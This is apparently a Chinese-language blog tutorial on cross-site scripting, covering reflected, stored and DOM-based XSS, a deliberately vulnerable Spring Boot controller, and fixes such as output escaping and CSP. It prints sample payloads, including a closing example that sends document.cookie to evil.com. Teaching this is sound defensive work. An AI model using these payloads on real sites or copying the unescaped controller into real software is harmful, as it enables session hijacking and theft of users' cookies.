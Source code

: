 ```yaml
---
title: XSS（跨站脚本攻击）
date: 2025-06-26
categories:
  - 安全
---
```


# 跨站脚本攻击（XSS）

XSS（Cross-Site Scripting，跨站脚本攻击）是一种常见的 Web 安全漏洞，攻击者通过在网页中注入恶意脚本，使脚本在用户浏览器中执行，从而窃取用户信息、冒充用户操作等。

## 分类
XSS 攻击主要分为三类：

### 1. 反射型 XSS
攻击代码作为请求参数提交，服务器端将其原样返回并在页面中立即执行。

**示例：**
```
https://example.com/search?q=<script>alert('xss')</script>
```
如果后端直接将 `q` 参数输出到页面，脚本会被执行。

### 2. 存储型 XSS
攻击代码被存储在服务器（如数据库、日志、评论等），其他用户访问时会被加载并执行。

**示例：**
用户在评论区提交：
```html
<script>alert('xss')</script>
```
所有访问该评论的用户都会触发弹窗。

### 3. DOM 型 XSS
前端 JavaScript 动态拼接或插入未经过滤的用户输入，导致脚本执行。

**示例：**
```html
<!-- 前端代码 -->
document.getElementById('result').innerHTML = location.hash.substring(1);
```
访问：
```
https://example.com/#<img src=1 onerror=alert('xss')>
```
会导致 XSS。

## 原理
攻击者将恶意 JavaScript 代码注入到网页中，当其他用户访问该页面时，恶意代码在其浏览器中执行，可能导致 Cookie 泄露、会话劫持、页面仿冒等安全问题。

## 错误编码示例
如下是易受 XSS 攻击的后端代码示例（以 Java Spring Boot 为例）：

```java
// 未做任何输出转义的 Controller
@RestController
public class CommentController {
    @PostMapping("/comment")
    public String comment(@RequestParam String content) {
        // 直接输出用户输入内容，存在 XSS 风险
        return "<div>" + content + "</div>";
    }
}
```

上述代码未对用户输入进行转义，攻击者可提交如下内容：

```html
<script>alert('XSS');</script>
```

页面渲染后会弹窗，证明 XSS 攻击成功。

## 安全编码方式
1. 对所有输出到页面的内容进行 HTML 转义。
2. 严格校验和过滤用户输入。
3. 禁止在页面中使用 `innerHTML`、`eval` 等高危 API。
4. 设置合适的 CSP（内容安全策略）。

**Java Spring Boot 输出转义示例：**

```java
// 使用 Thymeleaf 等模板引擎自动转义
<p th:text="${content}"></p>
```

**前端转义示例：**

```js
function escapeHtml(str) {
  return str.replace(/[&<>"']/g, function (c) {
    return {'&':'&amp;','<':'&lt;','>':'&gt;','"':'&quot;','\'':'&#39;'}[c];
  });
}
```

## 攻击例子
攻击者提交如下评论内容：

```html
<script>fetch('https://evil.com/steal?cookie=' + document.cookie)</script>
```

如果未做防护，用户访问评论区时 Cookie 会被窃取。

